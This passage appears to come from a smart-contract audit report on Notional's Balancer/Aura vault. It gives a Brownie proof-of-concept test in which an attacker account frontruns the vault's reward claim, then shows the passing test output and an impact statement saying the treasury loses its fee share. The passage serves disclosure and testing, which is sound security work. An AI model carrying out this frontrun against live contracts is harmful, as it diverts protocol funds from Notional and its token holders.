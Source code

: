 ```python
    primaryBorrowAmount = 100e8
    depositAmount = 50e18
    enterMaturity(env, vault, 1, 0, depositAmount, primaryBorrowAmount, accounts[0])
    chain.sleep(3600 * 24 * 365)
    chain.mine()
    feeReceiver = vault.getStrategyContext()["baseStrategy"]["feeReceiver"]
    feePercentage = vault.getStrategyContext()["baseStrategy"]["vaultSettings"]["feePercentage"] / 1e2
    assert env.tokens["BAL"].balanceOf(vault.address) == 0
    assert env.tokens["AURA"].balanceOf(vault.address) == 0
    assert env.tokens["BAL"].balanceOf(feeReceiver) == 0
    assert env.tokens["AURA"].balanceOf(feeReceiver) == 0

    auraPool = interface.IAuraRewardPool(vault.getStrategyContext()["stakingContext"]["auraRewardPool"])
    auraPool.getReward(vault.address, True, {"from": accounts[5]}) # Attacker frontrun the getReward
    vault.claimRewardTokens({"from": accounts[1]})

    # Test that the fee receiver received nothing due the frontrunning
    assert env.tokens["BAL"].balanceOf(feeReceiver) == 0
    assert env.tokens["AURA"].balanceOf(feeReceiver) == 0
```

```bash
❯ brownie test tests/balancer/rewards/test_rewards_stable_eth_steth.py --network mainnet-fork
Brownie v1.18.1 - Python development framework for Ethereum

=============================================================================================== test session starts ===============================================================================================
platform linux -- Python 3.8.10, pytest-6.2.5, py-1.11.0, pluggy-1.0.0
plugins: eth-brownie-1.18.1, hypothesis-6.27.3, forked-1.4.0, xdist-1.34.0, web3-5.27.0
collected 2 items                                                                                                                                                                                                 
Attached to local RPC client listening at '127.0.0.1:8545'...

tests/balancer/rewards/test_rewards_stable_eth_steth.py ..                                                                                                                                                  [100%]

========================================================================================== 2 passed, 1 warning in 5.72s ===========================================================================================
```

## Impact

Notional Treasury will not receive a portion of the accrued reward tokens as fees. Loss of assets for Notional protocol and its governance token holders.
